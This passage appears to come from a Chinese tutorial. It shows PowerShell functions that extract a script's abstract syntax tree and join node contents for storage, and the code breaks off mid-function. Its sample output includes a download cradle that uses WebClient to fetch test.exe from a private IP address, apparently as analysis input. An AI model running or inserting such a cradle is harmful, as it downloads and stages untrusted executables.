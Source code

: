 

### 2.AST节点拼接

最后添加add_blanks函数将各节点内容拼接，并存储至本地CSV或TXT文件中。完整代码如下所示：

```
# 函数：拼接AST节点内容
  function add_blanks {
      param (
        [parameter(Mandatory=$true)]
        [System.Array]$arr
      )
      $strNode = ''
      foreach($elem in $arr) {
          if($strNode.Length -ne 0) { #不等于
              $elem = " " + $elem
          }
          $strNode = $strNode + $elem
      }
      return $strNode
  }

# 函数：提取Powershell代码的抽象语法树(AST)
function Convert-CodeToAst
{
  param
  (
    [Parameter(Mandatory)]   # 强制参数
    [System.String]$str      # 执行ps文件名称
  )

  # 构建hashtable
  $hierarchy = @{}
  $result = [System.Collections.ArrayList]@()

  # 提取ps文件中的内容 
  Write-Output ("file name: {0}" -f ($str))
  $content = Get-content $str
  Write-Output $content

  # 创建Scipt代码块
  $code = [ScriptBlock]::Create($content)

  # 提取AST
  $code.Ast.FindAll( { $true }, $true) |
  ForEach-Object {
    # take unique object hash as key
    $id = 0;
    if($_.Parent) {
      $id = $_.Parent.GetHashCode()
    }
    Write-Debug('{0}:{1}' -f $_.GetType().Name,$id)

    if ($hierarchy.ContainsKey($id) -eq $false) {
      $hierarchy[$id] = [System.Collections.ArrayList]@()
    }
    $null = $hierarchy[$id].Add($_)
    # add ast object to parent
  }
  
  # 递归可视化树
  function Visualize-Tree($Id)
  {
    # 每级缩进
```

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')